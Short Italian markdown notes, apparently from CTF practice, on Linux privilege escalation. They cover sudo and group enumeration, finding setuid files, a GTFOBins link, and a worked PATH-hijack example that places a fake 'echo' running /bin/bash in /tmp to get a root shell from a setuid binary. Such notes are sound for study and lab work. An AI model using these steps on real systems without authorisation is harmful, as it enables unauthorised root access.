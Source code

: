 # Privilege Escalation 

link utile: https://hacktips.it/guida-privilege-escalation-sistemi-linux/

vedere cosa può fare l'utente come root:
```
sudo -l 
```

vedere cosa può fare l'utente nei gruppi:
```
id 
find / -group <GROUP> 2>/dev/null
```

## setuid program

trovare tutti i file setuid
```
find / -perm -u=s -type f 2>/dev/null
```

cercare file in https://gtfobins.github.io/gtfobins/

se il file esegue un altro programma modificare il path e creare un programma locale con lo stesso nome che fa altro.
esempio programma `./get_flag` che esegue echo:
```
cd /tmp
echo "/bin/bash" > echo
chmod 777 echo
echo $PATH
export PATH=/tmp:$PATH
cd /home/flag
./get_flag
```




